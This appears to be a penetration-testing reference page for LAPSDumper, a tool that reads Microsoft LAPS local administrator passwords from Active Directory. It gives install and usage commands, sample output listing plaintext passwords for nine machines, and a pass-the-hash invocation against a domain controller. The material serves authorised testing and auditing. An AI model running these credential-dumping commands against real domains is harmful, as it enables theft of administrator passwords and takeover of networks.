 ```yaml
---
title : "LAPSdumper"
# pre : ' '
description : "Dump LAPS Passwords."
date : 2020-12-21T14:32:07+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'LDAP', 'Active Directory']
---
```


## LAPSdumper

Dump LAPS (Microsoft Local Administrator Password Solution) Passwords.

### Installation

```plain
git clone https://github.com/n00py/LAPSDumper
```

### Usage

```plain
laps.py [-h] -u USERNAME -p PASSWORD [-l LDAPSERVER] -d DOMAIN
```

### Flags

```plain
optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        username for LDAP
  -p PASSWORD, --password PASSWORD
                        password for LDAP (or LM:NT hash)
  -l LDAPSERVER, --ldapserver LDAPSERVER
                        LDAP server (or domain)
  -d DOMAIN, --domain DOMAIN
                        Domain
```

### Examples

```plain
$ python3 laps.py -u user -p password -d domain.local

COMPUTER01$:B#g4%aI$K!yZ)q}
COMPUTER02$:n-6pW-n8L!o8Of]
COMPUTER03$:u2Oc9z&{R)fHA2J
COMPUTER04$:Rwb2#4,{@N4Y19v
COMPUTER05$:17aZ,+1L5L((D0F
COMPUTER06$:DNX&@e.8XTQhyPj
COMPUTER07$:U3ZXf0vX!Xm1P89
COMPUTER08$:.6IvTd7-85ytJeF
COMPUTER09$:P2(VSN4%49!%fI8
```

#### Pass-the-Hash specific LDAP server

```plain
python3 laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```

### URL list

* [GitHub.com - LAPSDumper](https://github.com/n00py/LAPSDumper)
* [n00py.io - Dumping LAPS passwords from Linux](https://www.n00py.io/2020/12/dumping-laps-passwords-from-linux/)
* [ADSecurity.org - Microsoft Local Administrator Password Solution (LAPS)](https://adsecurity.org/?p=1790)
* [ADSecurity.org - Microsoft LAPS Security & Active Directory LAPS Configuration Recon](https://adsecurity.org/?p=3164)
